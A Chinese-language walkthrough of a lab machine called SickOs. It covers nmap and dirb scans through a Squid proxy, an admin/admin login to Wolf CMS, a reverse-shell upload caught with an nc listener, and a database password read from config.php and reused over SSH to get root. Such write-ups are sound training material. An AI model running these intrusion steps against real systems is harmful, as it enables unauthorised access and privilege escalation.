






## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/sickos]
└─$ sudo nmap -sT --min-rate 9999  10.10.10.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-01 09:05 CST
Nmap scan report for 10.10.10.8
Host is up (0.011s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
MAC Address: 00:0C:29:27:E0:10 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.59 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/sickos]
└─$ sudo nmap -sT -sCV -O -p 22,3128,8080  10.10.10.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-01 09:06 CST
Nmap scan report for 10.10.10.8
Host is up (0.00057s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:27:E0:10 (VMware)
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.10 - 4.11 (92%), Linux 3.13 (91%), Linux 3.13 - 3.16 (91%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (91%), Linux 4.10 (91%), Android 5.0 - 6.0.1 (Linux 3.4) (91%), Linux 3.2 - 3.10 (91%), Linux 3.2 - 3.16 (91%), Linux 4.5 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.54 seconds
```

## squid proxy代理

查看3128端口

看到是一个squid的信息
去google一下

只要在这里挂上代理即可
访问10.10.10.8


## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace/sickos]
└─$ sudo dirb http://10.10.10.8 -p 10.10.10.8:3128 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  1 09:28:17 2024
URL_BASE: http://10.10.10.8/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 10.10.10.8:3128

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.8/ ----
+ http://10.10.10.8/cgi-bin/ (CODE:403|SIZE:286)                                                                                                                                          
+ http://10.10.10.8/connect (CODE:200|SIZE:109)                                                                                                                                           
+ http://10.10.10.8/index (CODE:200|SIZE:21)                                                                                                                                              
+ http://10.10.10.8/index.php (CODE:200|SIZE:21)                                                                                                                                          
+ http://10.10.10.8/robots (CODE:200|SIZE:45)                                                                                                                                             
+ http://10.10.10.8/robots.txt (CODE:200|SIZE:45)                                                                                                                                         
+ http://10.10.10.8/server-status (CODE:403|SIZE:291)                                                                                                                                     
                                                                                                                                                                                          
-----------------
END_TIME: Fri Mar  1 09:28:28 2024
DOWNLOADED: 4612 - FOUND: 7
```
查看robots

看到wolfcms
直接searchsploit
没什么可以用的

## web渗透

看到登录界面admin/admin弱口令登录

找到一个file目录

上传了一个reverseshell


## 第一个立足点shell

```bash                                               
┌──(kali㉿kali)-[~/workspace/sickos]
└─$ sudo nc -lvnp 4444                            
listening on [any] 4444 ...
connect to [10.10.10.3] from (UNKNOWN) [10.10.10.8] 48215
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
 15:54:28 up  1:33,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 

```

## 提权

提权过程就比较奇怪了

首先枚举了一些信息
最终在cms的配置信息中得到了管理员密码
```bash
www-data@SickOs:/home/sickos$ cd /var/www/wolfcms
cd /var/www/wolfcms
www-data@SickOs:/var/www/wolfcms$ ls
ls
CONTRIBUTING.md  composer.json  docs         index.php  robots.txt
README.md        config.php     favicon.ico  public     wolf
www-data@SickOs:/var/www/wolfcms$ car config.php
car config.php
No command 'car' found, but there are 27 similar ones
car: command not found
www-data@SickOs:/var/www/wolfcms$ cat config.php
cat config.php
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');

// Should Wolf produce PHP error messages for debugging?
define('DEBUG', false);

// Should Wolf check for updates on Wolf itself and the installed plugins?
define('CHECK_UPDATES', true);

// The number of seconds before the check for a new Wolf version times out in case of problems.
define('CHECK_TIMEOUT', 3);

// The full URL of your Wolf CMS install
define('URL_PUBLIC', '/wolfcms/');

// Use httpS for the backend?
// Before enabling this, please make sure you have a working HTTP+SSL installation.
define('USE_HTTPS', false);

// Use HTTP ONLY setting for the Wolf CMS authentication cookie?
// This requests browsers to make the cookie only available through HTTP, so not javascript for example.
// Defaults to false for backwards compatibility.
define('COOKIE_HTTP_ONLY', false);

// The virtual directory name for your Wolf CMS administration section.
define('ADMIN_DIR', 'admin');

// Change this setting to enable mod_rewrite. Set to "true" to remove the "?" in the URL.
// To enable mod_rewrite, you must also change the name of "_.htaccess" in your
// Wolf CMS root directory to ".htaccess"
define('USE_MOD_REWRITE', false);

// Add a suffix to pages (simluating static pages '.html')
define('URL_SUFFIX', '.html');

// Set the timezone of your choice.
// Go here for more information on the available timezones:
// http://php.net/timezones
define('DEFAULT_TIMEZONE', 'Asia/Calcutta');

// Use poormans cron solution instead of real one.
// Only use if cron is truly not available, this works better in terms of timing
// if you have a lot of traffic.
define('USE_POORMANSCRON', false);

// Rough interval in seconds at which poormans cron should trigger.
// No traffic == no poormans cron run.
define('POORMANSCRON_INTERVAL', 3600);

// How long should the browser remember logged in user?
// This relates to Login screen "Remember me for xxx time" checkbox at Backend Login screen
// Default: 1800 (30 minutes)
define ('COOKIE_LIFE', 1800);  // 30 minutes

// Can registered users login to backend using their email address?
// Default: false
define ('ALLOW_LOGIN_WITH_EMAIL', false);

// Should Wolf CMS block login ability on invalid password provided?
// Default: true
define ('DELAY_ON_INVALID_LOGIN', true);

// How long should the login blockade last?
// Default: 30 seconds
define ('DELAY_ONCE_EVERY', 30); // 30 seconds

// First delay starts after Nth failed login attempt
// Default: 3
define ('DELAY_FIRST_AFTER', 3);

// Secure token expiry time (prevents CSRF attacks, etc.)
// If backend user does nothing for this time (eg. click some link) 
// his token will expire with appropriate notification
// Default: 900 (15 minutes)
define ('SECURE_TOKEN_EXPIRY', 900);  // 15 minutes
www-data@SickOs:/var/www/wolfcms$ su root
su root
Password: john@123

su: Authentication failure
```

这里su失败了，提示验证失败
去mysql查看了user的用户密码
发现破解不了

```sql
mysql> use user;
use user;
ERROR 1049 (42000): Unknown database 'user'
mysql> select * from user;
select * from user;
+----+---------------+--------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------+----------+---------------------+--------------+---------------+---------------------+---------------------+---------------+---------------+
| id | name          | email              | username | password                                                                                                                         | salt                                                             | language | last_login          | last_failure | failure_count | created_on          | updated_on          | created_by_id | updated_by_id |
+----+---------------+--------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------+----------+---------------------+--------------+---------------+---------------------+---------------------+---------------+---------------+
|  1 | Administrator | admin@yoursite.com | admin    | 3a1be46a798dce0d880f633ce195b676839a0ce344c917a7ea1270816dcb649ce1e2b811b56fe93c9d3c4e679151180129ee9483ea39bff4d4578c4be6c77e1f | 6806b774443f2c34231eceddf156a42d3c26a2b5219ee9d55f5e3c9aea534167 | en       | 2024-03-01 15:38:00 | NULL         |             0 | 2015-12-05 06:25:06 | 2024-03-01 15:38:00 |             1 |          NULL |
+----+---------------+--------------------+----------+----------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------+----------+---------------------+--------------+---------------+---------------------+---------------------+---------------+---------------+
1 row in set (0.00 sec)
```

ssh连接sickos，密码是之前得到的john123

```bash

┌──(kali㉿kali)-[~/workspace/sickos]
└─$ ssh sickos@10.10.10.8                                                            
The authenticity of host '10.10.10.8 (10.10.10.8)' can't be established.
ECDSA key fingerprint is SHA256:fBxcsD9oGyzCgdxtn34OtTEDXIW4E9/RlkxombNm0y8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.8' (ECDSA) to the list of known hosts.
sickos@10.10.10.8's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Mar  1 16:15:29 IST 2024

  System load:  0.0               Processes:           119
  Usage of /:   4.3% of 28.42GB   Users logged in:     0
  Memory usage: 18%               IP address for eth0: 10.10.10.8
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Tue Sep 22 08:32:44 2015
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# su sickos
sickos@SickOs:~$ sudo -l
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# 

```
提权成功